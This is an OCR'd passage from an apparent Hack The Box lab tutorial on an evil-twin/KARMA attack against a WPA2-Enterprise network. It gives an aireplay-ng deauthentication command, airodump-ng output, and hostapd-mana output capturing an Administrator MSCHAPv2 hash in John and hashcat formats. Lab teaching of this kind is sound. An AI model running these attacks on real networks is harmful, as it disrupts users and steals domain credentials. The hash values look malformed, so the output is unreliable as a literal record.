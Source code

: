 ```shell
airodump-ng wlan0mon -c 1

 CH  1 ][ Elapsed: 6 s ][ 2024-08-23 09:47

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 00:11:22:33:44:00  -28 100       97        0    0   1   54   WPA2 CCMP   MGT  HTB-Wireless
 9C:9A:03:39:BD:7A  -28 100       97        5    0   1   54   WPA2 CCMP   MGT  HTB-Wireless

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 9C:9A:03:39:BD:7A  16:C5:68:79:A8:12  -29   12 -54      0        4

```

From the airodump-ng output, we can see that our fake access point, named `HTB-Wireless`, has been successfully created. Now, we need to wait for clients to connect to our network.

If, after some time, connected clients do not automatically switch to our network due to the KARMA attack (and they remain associated with the original access point in our airodump-ng session), we may need to perform a `deauthentication attack`. This will disconnect clients from the target access point, encouraging them to connect to our fake AP. We can execute this attack using the following command, specifying the target access point's BSSID and the client’s MAC address.

```shell
sudo aireplay-ng -0 6 -a 9C:9A:03:39:BD:7A -c 16:C5:68:79:A8:12 wlan0mon

09:57:49  Waiting for beacon frame (BSSID: 9C:9A:03:39:BD:7A) on channel 1
09:57:49  Sending 64 directed DeAuth (code 7). STMAC: [16:C5:68:79:A8:12] [ 0| 0 ACKs]
09:57:50  Sending 64 directed DeAuth (code 7). STMAC: [16:C5:68:79:A8:12] [ 0| 0 ACKs]
09:57:50  Sending 64 directed DeAuth (code 7). STMAC: [16:C5:68:79:A8:12] [ 0| 0 ACKs]

```

* * *

### 5\. Capture the Credentials

Once a client successfully connects to our fake access point and EAP negotiation is successful, we should observe output similar to the following in the hostapd-mana/hostapd-wpe tab:

```shell
wlan1: AP-ENABLED
MANA - Directed probe request for SSID 'HTB-Wireless' from 16:C5:68:79:A8:12
MANA - Directed probe request for SSID 'HTB-Wireless' from 16:C5:68:79:A8:12
wlan1: STA 16:C5:68:79:A8:12 IEEE 802.11: authenticated
wlan1: STA 12:c2:9c:78:a6:0d IEEE 802.1X: Identity received from STA: 'HTB\Administrator'

mschapv2: Wed Aug 21 12:52:31 2024
	 username:			HTB\Administrator
	 challenge:			45:14:53:22:49:08:8c:58
	 response:			10:51:1c:55:42:d6:04:1d:b2:2a:d6:29:73:ad:76:0c:6f:f5:07:d3:3a:dd:6d:b3
	 jtr NETNTLM:			Administrator:$NETNTLM$as65a4sd564d1a2s$54as56d65asasd55asd564asd564asd555asd564as6d55s5
	 hashcat NETNTLM:		Administrator::::54as56d65asasd55asd564asd564asd555asd564as6d55s5:as65a4sd564d1a2s

```
